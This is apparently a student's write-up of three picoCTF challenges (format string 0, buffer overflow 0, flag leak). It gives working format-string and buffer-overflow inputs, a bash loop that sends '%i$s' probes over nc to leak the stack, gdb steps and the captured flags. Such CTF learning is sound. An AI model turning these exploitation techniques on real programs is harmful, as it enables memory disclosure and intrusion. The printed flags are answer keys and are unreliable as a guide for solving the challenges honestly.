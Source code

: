 
# format string 0

**flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}`

**Thought Process**

* Since the first hint encouraged us to know about **format specifiers**, I knew the vulnerability would be something related to that.
* The second hint told us to try out different options. This, of course, referred to the code giving us options to input and it implied that inputting certain options would give us the flag.

Now, when you initially start the instance from the website, you're shown this:

```bash
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

At the first glance, instinctively I picked `Gr%114d_Cheese` has it had a format specifier (denoted by `%`, `%114d` just represents the number of characters it can hold) in it.  Upon that input, we're hit with:

```bash
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

As we can tell, there was a little bit of a glitch with the spacing, which further exposes the format specifier vulnerability. Now, obviously, we're gonna choose the option that has more number of `%`s, which is `Cla%sic_Che%s%steak`.  This then gives us the flag.

**Alternative Method**

After going thru the code provided to us, I noticed that there would be a certain threshold of the amount of characters I can give as input before the program malfunctions. So I tried inputting random number of characters and after I gave it 55 characters (to be exact), it directly spat out the flag.

```bash
shady@WIN-3CTPHJ9NI00:~$ nc mimas.picoctf.net 57883
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: noewnfnufnisbfaeisbfisabfaesbfsbfnefunfeneafaioufbeubfea
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_ef312157}
```

**Two things I noticed here are**: 
* The long string to be inputted does not require `%`s in it at all. A collection of random alphanumeric characters worked.
* The string had to be exactly 55 characters or more. Although I cannot explain why the number is 55 and not 64 or 32, I found it out thru trial and error. 

**Mistakes Made**

* Spent too much time trying to understand and modify the code to make it give me the flag. Pretty dumb move in hindsight. 

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

**Thought Process**

* Since this is another question using the concept of **buffer overflow**, I juts went thru the code once and noticed that to overflow `buf2`, I'd need to exceed it's capacity of **16 bytes**.
* I started with 16 and eventually, at 20 characters, It outputted the flag.

Here's the input and output for 19 and 20 characters respectively:

```bash
nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssds
The program will exit now
^C

nc saturn.picoctf.net 50321
Input: uebfdiuewbfisdsssdsh
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


# flag leak

**Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`**

**Thought Process**

* We're given a file `vuln` , when executed using Linux asks us to tell it a story, and our hint is **Format Strings**, so I did some reading on format string vulnerabilities.
* Then I tried a bunch of format specifiers to see how it would react to them: 

![Pasted image 20241206135613](https://github.com/user-attachments/assets/5287c1f7-ab1a-4d10-9e79-d81a68e76e09)


* Now, as I understood from the quoted article 

![image](https://github.com/user-attachments/assets/a604aad2-d53b-4475-9dbe-775cc88a4535)

In our case, we now know that we need to somehow find the address of our flag, and our format is `%i$s` where `i` is the flag's memory location, and the `s` at the end is to access the string corresponding to that memory location.


* Now, trying to find the address of the flag string can be done using `gdb`, but instead I wrote a small bash script that ran all values from 0-50, and looked inside the contents:
  
```bash
for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 60614; done
```

and this printed out a bunch of random characters UNTILL

![Pasted image 20241206150106](https://github.com/user-attachments/assets/989b1c6b-8af3-4e6a-9ab6-a64642a4b69e)

oh and for efficiency, we can make the script to grep the flag for a cleaner output, our new command would be:

```bash
for i in {0..50}; do echo "%$i\$s" | nc saturn.picoctf.net 60614 | grep CTF; done
```

![Pasted image 20241206153037](https://github.com/user-attachments/assets/0729db35-8f56-429b-bcfa-459da25bfe9c)


**Alternative Approach**

* Initially, I tried to find out the memory address of the flag using gdb, to do this, I used the command `gdb` in bash followed by `disass vuln` to come across:

![image](https://github.com/user-attachments/assets/c0741e52-6d3d-4635-b7e4-d54d0cd7ec08)

Here, we see that `readflag` is at the memory address `0x08049355`, So I added a breakpoint right after it at `0x0804935a`, and then ran the program, the commands I used were

```bash
b *0x0804935a
```
 and then 

```bash
run
```

which then prompted this 

![image](https://github.com/user-attachments/assets/d0158948-8fa7-4f16-a099-3275c858db1f)

where we can see that the flag is present in the 24th stack. This way, if we just input `%24$s` to the instance, it will output our flag.

![image](https://github.com/user-attachments/assets/8cea7d63-36c3-41a0-b9ed-c029ae983da7)




**New Things Learnt**

* A better grasp of how to deal with format string vulerabilities.
* Write scripts in bash.
* Locating the memory address of an entity using gbd.



**References**
* https://www.infosecinstitute.com/resources/secure-coding/how-to-exploit-format-string-vulnerabilities/


